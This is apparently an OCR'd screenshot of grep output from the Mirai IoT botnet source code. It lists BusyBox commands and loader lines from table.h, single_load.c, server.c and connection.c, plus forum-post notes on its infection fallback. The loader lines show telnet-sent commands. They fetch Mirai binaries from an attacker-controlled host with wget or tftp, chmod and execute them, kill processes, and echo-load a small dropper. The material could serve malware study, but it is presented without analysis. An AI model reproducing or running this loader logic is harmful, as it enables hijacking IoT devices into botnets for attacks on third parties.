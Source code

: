 # Some Mirai commands
/bin/busybox ps
/bin/busybox kill -9
/bin/busybox mkdir
/bin/busybox rm
/bin/busybox cp
/bin/busybox echo
/bin/busybox wget
/bin/busybox tftp

# Some important lines of Mirai source code
mirai/bot/table.h:#define TABLE_SCAN_PS                   27  /* "/bin/busybox ps" */
mirai/bot/table.h:#define TABLE_SCAN_KILL_9               28  /* "/bin/busybox kill -9 " */
mirai/tools/single_load.c:#define TOKEN           "/bin/busybox VDOSS"
mirai/tools/single_load.c:                        if (memmem(buf, got, "BusyBox", 7) != NULL)
mirai/tools/single_load.c:                        if (strcasestr(buf, "BusyBox") != NULL || matchPrompt(buf))
mirai/tools/single_load.c:                            sockprintf(state->fd, "/bin/busybox mkdir -p %s; /bin/busybox rm %s/a; /bin/busybox cp -f /bin/sh %s/a && /bin/busybox VDOSS\r\n", state->path[0], state->path[0], state->path[0]);
mirai/tools/single_load.c:                            sockprintf(state->fd, "/bin/busybox mkdir -p %s; /bin/busybox rm %s/a; /bin/busybox cp -f /bin/sh %s/a && /bin/busybox VDOSS\r\n", state->path[0], state->path[0], state->path[0]);
mirai/tools/single_load.c:                            sockprintf(state->fd, "/bin/busybox echo -ne '' > %s/a && /bin/busybox VDOSS\r\n", state->path[state->pathInd]);
mirai/tools/single_load.c:                                sockprintf(state->fd, "/bin/busybox echo -ne '' > %s/a && /bin/busybox VDOSS\r\n", state->path[state->pathInd]);
mirai/tools/single_load.c:                            sockprintf(state->fd, "/bin/busybox mkdir -p %s; /bin/busybox rm %s/a; /bin/busybox cp -f /bin/sh %s/a && /bin/busybox VDOSS\r\n", state->path[state->pathInd], state->path[state->pathInd], state->path[state->pathInd]);
mirai/tools/single_load.c:                            sockprintf(state->fd, "/bin/busybox echo -ne %s >> %s/a && /bin/busybox VDOSS\r\n", binary.slices[state->echoInd++], state->path[state->pathInd]);
mirai/tools/single_load.c:                            sockprintf(state->fd, "%s/a %s; /bin/busybox VDOSS\r\n", state->path[state->pathInd], run_arg);
loader/src/headers/connection.h:        TELNET_UPLOAD_TFTP,     // 17
loader/src/headers/connection.h:int connection_upload_tftp(struct connection *conn);
loader/src/headers/includes.h:#define TOKEN_QUERY     "/bin/busybox ECCHI"
loader/src/headers/includes.h:#define EXEC_QUERY     "/bin/busybox IHCCE"
loader/src/headers/server.h:    volatile uint32_t total_input, total_logins, total_echoes, total_wgets, total_tftps, total_successes, total_failures;
loader/src/headers/server.h:    char *wget_host_ip, *tftp_host_ip;
loader/src/headers/telnet_info.h:        UPLOAD_TFTP
loader/src/server.c:    srv->tftp_host_ip = thip;
loader/src/server.c:                            util_sockprintf(conn->fd, "/bin/busybox ps; " TOKEN_QUERY "\r\n");
loader/src/server.c:                            util_sockprintf(conn->fd, "/bin/busybox cat /proc/mounts; " TOKEN_QUERY "\r\n");
loader/src/server.c:                            util_sockprintf(conn->fd, "/bin/busybox cp /bin/echo " FN_BINARY "; >" FN_BINARY "; /bin/busybox chmod 777 " FN_BINARY "; " TOKEN_QUERY "\r\n");
loader/src/server.c:                                util_sockprintf(conn->fd, "/bin/busybox cat /bin/echo\r\n");
loader/src/server.c:                                util_sockprintf(conn->fd, "/bin/busybox wget; /bin/busybox tftp; " TOKEN_QUERY "\r\n");
loader/src/server.c:                                util_sockprintf(conn->fd, "/bin/busybox wget; /bin/busybox tftp; " TOKEN_QUERY "\r\n");
loader/src/server.c:                            util_sockprintf(conn->fd, "/bin/busybox wget; /bin/busybox tftp; " TOKEN_QUERY "\r\n");
loader/src/server.c:                                    util_sockprintf(conn->fd, "/bin/busybox cp "FN_BINARY " " FN_DROPPER "; > " FN_DROPPER "; /bin/busybox chmod 777 " FN_DROPPER "; " TOKEN_QUERY "\r\n");
loader/src/server.c:                                    util_sockprintf(conn->fd, "/bin/busybox wget http://%s:%d/bins/%s.%s -O - > "FN_BINARY "; /bin/busybox chmod 777 " FN_BINARY "; " TOKEN_QUERY "\r\n",
loader/src/server.c:                                case UPLOAD_TFTP:
loader/src/server.c:                                    conn->state_telnet = TELNET_UPLOAD_TFTP;
loader/src/server.c:                                    util_sockprintf(conn->fd, "/bin/busybox tftp -g -l %s -r %s.%s %s; /bin/busybox chmod 777 " FN_BINARY "; " TOKEN_QUERY "\r\n",
loader/src/server.c:                                                    FN_BINARY, "mirai", conn->info.arch, wrker->srv->tftp_host_ip);
loader/src/server.c:                                    printf("tftp\n");
loader/src/server.c:                    case TELNET_UPLOAD_TFTP:
loader/src/server.c:                        consumed = connection_upload_tftp(conn);
loader/src/server.c:                            printf("[FD%d] Finished tftp loading\n", conn->fd);
loader/src/server.c:                            ATOMIC_INC(&wrker->srv->total_tftps);
loader/src/server.c:                        else if (consumed < -1) // Did not have permission to TFTP
loader/src/server.c:                            printf("[FD%d] No permission to TFTP load, falling back to echo!\n", conn->fd);
loader/src/server.c:                            util_sockprintf(conn->fd, "/bin/busybox cp "FN_BINARY " " FN_DROPPER "; > " FN_DROPPER "; /bin/busybox chmod 777 " FN_DROPPER "; " TOKEN_QUERY "\r\n");
loader/src/server.c:                                    util_sockprintf(conn->fd, "/bin/busybox wget; /bin/busybox tftp; " TOKEN_QUERY "\r\n");
loader/src/server.c:                    util_sockprintf(conn->fd, "/bin/busybox wget; /bin/busybox tftp; " TOKEN_QUERY "\r\n");
loader/src/main.c:    /*                                                                                   wget address           tftp address */
loader/src/main.c:        printf("%ds\tProcessed: %d\tConns: %d\tLogins: %d\tRan: %d\tEchoes:%d Wgets: %d, TFTPs: %d\n",
loader/src/main.c:               ATOMIC_GET(&srv->total_echoes), ATOMIC_GET(&srv->total_wgets), ATOMIC_GET(&srv->total_tftps));
loader/src/connection.c:                    util_sockprintf(conn->fd, "/bin/busybox kill -9 %d\r\n", pid);
loader/src/connection.c:                        //util_sockprintf(conn->fd, "/bin/busybox cat /proc/%d/environ", pid); // lol
loader/src/connection.c:                        util_sockprintf(conn->fd, "/bin/busybox kill -9 %d\r\n", pid);
loader/src/connection.c:                util_sockprintf(conn->fd, "/bin/busybox echo -e '%s%s' > %s/.nippon; /bin/busybox cat %s/.nippon; /bin/busybox rm %s/.nippon\r\n",
loader/src/connection.c:    util_sockprintf(conn->fd, "/bin/busybox echo -e '%s/dev' > /dev/.nippon; /bin/busybox cat /dev/.nippon; /bin/busybox rm /dev/.nippon\r\n",
loader/src/connection.c:    else if (util_memsearch(conn->rdbuf, offset, "tftp: applet not found", 22) == -1)
loader/src/connection.c:        conn->info.upload_method = UPLOAD_TFTP;
loader/src/connection.c:int connection_upload_tftp(struct connection *conn)
ForumPost.md:It detects if there is wget or tftp, and tries to download the binary using
ForumPost.txt:It detects if there is wget or tftp, and tries to download the binary using that. If not, it will echoload a tiny binary (about 1kb) that will suffice as wget. You can find code to compile the tiny downloader stub h ere
ForumPost.txt:You need to edit your main.c for the dlr to include the HTTP server IP. The idea is, if the iot device doesn have tftp or wget, then it will echo load this 2kb binary, which download the real binary, since echo loading really slow.

